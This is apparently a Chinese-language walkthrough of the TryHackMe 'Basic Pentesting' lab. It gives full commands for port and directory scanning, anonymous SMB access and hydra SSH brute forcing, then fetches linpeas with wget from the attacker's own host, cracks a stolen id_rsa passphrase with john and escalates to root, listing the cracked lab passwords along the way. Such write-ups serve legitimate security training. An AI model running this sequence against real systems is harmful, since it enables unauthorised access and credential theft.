




# Basic Pentesting

首先拿機器 ip: `10.10.93.94`，並確認機器已上線

`ping 10.10.93.94 `



接著使用 nmap 掃描，尋找開啟的服務

`nmap -v -sV -p- --min-rate 5000 10.10.93.94`


可以看到，一共有開啟了 `ssh`, `http` (`apache`), `SMB`, `tomcat` 等服務

既然有開網頁服務，所以可以用瀏覽器來打開看看，但是發現網頁似乎在維修中



不過奇怪的一點是，HTTP status 是 200，代表其實伺服器沒有壞掉



因此推測這是一個正常的網頁，只是故意寫得像是網頁維修中，而既然是網頁那可以嘗試看看目錄爆破，這邊我使用的工具是 gobuster

`gobuster dir -u 10.10.93.94 -w /usr/share/seclists/Discovery/Web-Content/common.txt --timeout 20s`


可以發現，有神秘的 `/development/` 路徑，打開來看看

發現了有敏感資訊洩漏



以下是相關文件內容

dev.txt:
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

J.txt:
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

從以上資訊可以知道 

1. 有 `K` 和 `J` 兩個人在通信 (應該是 MIB 的梗)
2. 有 SMB 以及 Apache server 服務，且 Apache 版本為 `2.5.12` (且知道在其餘版本會出現問題，可能就是為什麼前面會像是伺服器維修中這樣子，因為其實目前使用的 Apache 版本為 `2.4.18`)
3. `J` 的帳號有弱密碼問題 (在 `/etc/shadow` 中)

而網頁的部分似乎就差不多了，查詢了一下 Apache 2.4.18 相關 CVE 也沒有明顯的可利用漏洞，因此嘗試往 SMB 的方向繼續

首先嘗試用 `smbclient` 工具列出 SMB 的相關共享目錄

`smbclient -N -L \\\\10.10.93.94`


發現了有 `Anonymous` 及 `IPC$` 的共享目錄，後者是用來做 process 之間通訊使用的，在這邊應該是用不到，所以嘗試在無密碼情況連線看看前者 

`smbclient -N \\\\10.10.93.94\\Anonymous`

發現可以直接連接!

執行指令 `ls`，查看目前資料夾的內容


發現了一個文件 `staff.txt`，使用 `mget` 指令下載資料下來


以下是 `staff.txt` 的內容

```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

到這邊之後我就沒有頭緒了，因此偷偷看一下[別人的 writeup](https://david-varghese.medium.com/tryhackme-basic-pentesting-2d5bb1715092) 看看接下來怎麼做，發現其實在這邊的 `Jan` 和 `Kay` 就是員工名稱

而前面的信件也可知道代號 `J` 的 `Jan` 有弱密碼問題，所以可以嘗試爆破看看他的 SSH 密碼 (這邊不知道為什麼實際的使用者名稱是全小寫的 `jan`)

接著使用 `hydra` 工具破解密碼，相關資訊可參考[這篇文章](https://ithelp.ithome.com.tw/articles/10279368)

`hydra -l jan -P ~/Desktop/temp/rockyou.txt ssh://10.10.93.94`


給他慢慢爆破下去後，得到密碼為 `armando`，因此可以直接登入 SSH 了

`ssh jan@10.10.93.94`

輸入 `id`，查看目前的權限，可以看到基本上就是一般使用者


查看 `/home` 下的使用者，看到有另一個 `kay` 的使用者可以用


接著根據 tryhackme 上的指示，接下來需要使用枚舉器來找 privilege escalation 的漏洞

這邊因為需要工具 `linpeas`，而當前家目錄是無法寫入的，所以我們先必須要找一個可以具有寫入與執行權限的地方，把腳本寫入機器中執行


`find / -type d -writable -executable -maxdepth 2 -exec ls -al {} +`

以下是其中一個目錄


我們可以開始把工具放上去了

因為通常來說機器裡是無法直接與外部網頁連線的關係，只能透過內網的資料傳輸，所以我們先將 `linpeas` 載到自己的 kali 中之後開一個 python 的 `http.server` 作為一個簡易的檔案伺服器，再用 wget 的方式下載檔案

`python3 -m http.server`


`wget http://10.17.31.45:8000/linpeas.sh`


下載完之後給予其執行權限，並開始進行枚舉

由於這台機器可能是太舊了，所以有一堆新的 CVE 漏洞之類的，雖然應該也是可以直接拿來利用啦不過我這邊嘗試使用 intended solution 來解


在枚舉過程中，可以爆出所有使用者以及他們的群組，而可以看到前面發現的 `kay` 使用者在 `sudo` 的群組中，也代表假如我們能夠拿到 `kay` 的帳號密碼的話就代表我們有機會可以執行較高權限的指令


而在繼續枚舉的過程中，也發現了 `kay` 帳號底下有 `id_rsa` 的檔案，這個檔案就可以用來作為 SSH 的登入憑證使用


而實際查看發現確實此檔案是可讀取的


將檔案內容讀出並下載後，修改此檔案權限為 `400` (因為權限太高的話 SSH 連線時會擋)，使用以下指令連線 SSH，發現還需要一個 keyphrase

`ssh kay@10.10.93.94 -i id_rsa`


因此使用工具 `ssh2john`，將其轉換成 `johntheripper` 看得懂的 hash 格式

`ssh2john id_rsa > hash.txt`

接著使用工具 `john`，爆破密碼

`john --wordlist=~/Desktop/temp/rockyou.txt hash.txt`


發現了 keyphrase 為 `beeswax`

再次使用 SSH 登入，確認自己確實拿到了 `kay` 的帳號，並確認確實在 sudo 群組中


查看檔案後，發現有一個名為 `pass.bak` 的檔案，推測這是 `kay` 的密碼


密碼: `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

執行 `sudo -l`，確認是否取得完整的指令權限


可以看到我們確實能夠執行任意權限指令，完整取得整個機器權限

以下是一些彩蛋部分

首先查看 `/root` 資料夾，發現了底下有一個 `flag.txt` 檔案

`sudo ls /root`


以下是它的內容

```
Congratulations! You've completed this challenge. There are two ways (that I'm aware of) to gain 
a shell, and two ways to privesc. I encourage you to find them all!

If you're in the target audience (newcomers to pentesting), I hope you learned something. A few
takeaways from this challenge should be that every little bit of information you can find can be
valuable, but sometimes you'll need to find several different pieces of information and combine
them to make them useful. Enumeration is key! Also, sometimes it's not as easy as just finding
an obviously outdated, vulnerable service right away with a port scan (unlike the first entry
in this series). Usually you'll have to dig deeper to find things that aren't as obvious, and
therefore might've been overlooked by administrators.

Thanks for taking the time to solve this VM. If you choose to create a writeup, I hope you'll send 
me a link! I can be reached at josiah@vt.edu. If you've got questions or feedback, please reach
out to me.

Happy hacking!
```